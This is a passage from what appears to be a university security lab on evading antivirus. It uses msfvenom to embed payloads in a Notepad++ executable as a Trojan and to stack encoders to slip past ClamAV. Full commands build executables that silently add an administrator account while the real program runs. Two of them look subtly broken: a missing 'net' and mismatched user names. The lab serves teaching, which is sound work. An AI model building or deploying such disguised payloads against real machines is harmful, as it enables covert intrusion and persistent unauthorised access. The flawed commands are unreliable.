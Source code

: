 ==action: Try creating the payload again, but change the value after the '-i' flag to increase the number of times it's encoded==. Does this allow it to slip past ClamAV?

As you can see, modern anti-malware is doing more than checking the exact contents of the file, and many will still detect this version. However, note that we are in well tested waters, and if you were to write your own malicious program from scratch, most anti-malware products would ***not*** detect it.

Now let's try a more advanced approach. We will run the payload through a few different encoding methods, and use an existing program as a template for our new program. 

Embedding the payload into an existing program will seem less suspicious to anti-malware, since the program will look more “normal”.

However, using this approach, when the victim runs our Trojan, the harmless program can also run. A related technique is using an “EXE wrapper”, which can combine multiple programs together, and can be used to combine existing Trojans executables with other programs, and both programs are launched when the combined program is started. This gives the impression that the program is behaving as expected.

==action: Start by obtaining a small Windows program to embed our payload into==. If you like, you could get a copy of notepad or solitaire from the Windows VM, and copy it to the Kali Linux VM.Alternatively, download Notepad++ from the Internet and transfer it onto the Kali VM by doing the following:

==action: First, open a browser on your local machine (not one of the VMs) and navigate to the following address, saving the file once prompted:==

https://github.com/notepad-plus-plus/notepad-plus-plus/releases/download/v8.1.5/npp.8.1.5.portable.zip

==action: Navigate to the folder it downloaded to, then drag and drop it onto the desktop of the Kali VM==. It should copy over, and you should now have it on the Kali system.

==action: Unzip the file==.

```bash
unzip npp.8.1.5.portable.zip
```

==action: Let's use msfvenom to embed the payload in our program. Try out the following== (if the file is not found, change the path from /root/notepad++.exe to that of the file you just unzipped):

```bash
msfvenom -p windows/messagebox TEXT="You should not have clicked that!" --platform windows -x /root/notepad++.exe PrependMigrate=true -k -f exe > myNotepad++.exe
```

```bash
msfvenom -p windows/exec CMD='cmd.exe /c "net user /add leeds2 L33d583ck377 && localgroup administrators leeds3 /add & START /B notepad.exe"' --platform windows -x /root/notepad++.exe -f exe > myNotepad2++.exe
```

Now that we have our program to use as a template, we want to try to avoid detection, so let's do more to encode our payload. ==action: Run (on one line):==

```bash
msfvenom -p windows/exec CMD='cmd.exe /c "net user /add leeds4 L33d583ck377 && localgroup administrators leeds4 /add & START /B notepad.exe"' -e x86/shikata_ga_nai -i 3 -a x86 --platform windows | msfvenom -e x86/countdown -i 9 -a x86 --platform windows | msfvenom -e x86/shikata_ga_nai -i 1 -a x86 --platform windows | msfvenom -x /root/notepad++.exe -f exe -a x86 --platform windows -e x86/call4_dword_xor -i 10 > myNotepad3++.exe
```
